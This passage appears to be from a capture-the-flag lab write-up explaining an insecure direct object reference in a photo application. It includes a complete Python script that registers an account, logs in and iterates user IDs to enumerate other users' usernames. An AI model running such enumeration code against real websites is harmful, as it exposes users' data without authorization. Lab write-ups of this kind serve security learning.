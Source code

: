 ## #4.4 - What is the username of a logged on user?

*Hint: have you tried using this list: https://github.com/danielmiessler/SecLists/blob/master/Usernames/Names/names.txt*

Browsing the application, you will notice that once logged in, you can view your uploaded pictures (http://10.10.253.243/users/view.php?userid=13). Modifying the value of the ID in the URL discloses other users' picures.

Take advantage of this vulnerability to list some users. I've written a [python script](files/list_users.py) that automatizes the process:

```python
#!/usr/bin/env python3
import requests
import random
import re

target   = "http://10.10.253.243"
register = "/users/register.php"
login    = "/users/login.php"
view     = "/users/view.php?userid="

# generate random username
usr = random.getrandbits(128)
pwd = usr

# Create a user
print("[INFO] Create random user")
data = {
	"username":usr,
	"firstname":usr,
	"lastname":usr,
	"password":pwd,
	"againpass":pwd
	}
r = requests.post(target+register, data=data)
#print(r.text)
print("[INFO] Random user successfully created")

with requests.Session() as s:
	# Now login with new user
	print("[INFO] Connect with {}".format(usr))
	data = {
		"username":usr,
		"password":pwd
		}
	s.post(target+login, data=data)
	print("[INFO] User {} successfully connected".format(usr))

	# List users
	print("[INFO] Listing users")
	for i in range(1,100):
		r = s.get(target+view+str(i))
		# extract username from <h2>These are bob&#39;s Pictures: </h2>
		if "<h2>These are" in r.text:
			g = re.search("<h2>(.*)</h2>", r.text)
			print("====================")
			print("User ID: {}".format(str(i)))
			print(g.group(1))
```
